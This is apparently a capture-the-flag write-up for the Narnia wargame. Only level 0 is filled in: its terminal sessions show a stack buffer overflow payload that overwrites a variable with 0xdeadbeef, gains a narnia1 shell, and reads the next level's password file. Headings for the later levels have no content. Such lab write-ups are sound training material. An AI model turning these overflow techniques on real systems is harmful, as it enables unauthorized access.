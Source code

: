 # Narnia

## Narnia0
```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: abcdabcdabcdabcd
buf: abcdabcdabcdabcd
val: 0x41414141
WAY OFF!!!!
```
```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaabbbb
buf: aaaaaaaaaaaaaaaaaaaabbbb
val: 0x62626262
WAY OFF!!!!
```
```
narnia0@narnia:/narnia$ ( echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde";cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```
## Narnia1
## Narnia2
## Narnia3
## Narnia4
## Narnia5
## Narnia6
## Narnia7
## Narnia8
## Narnia9
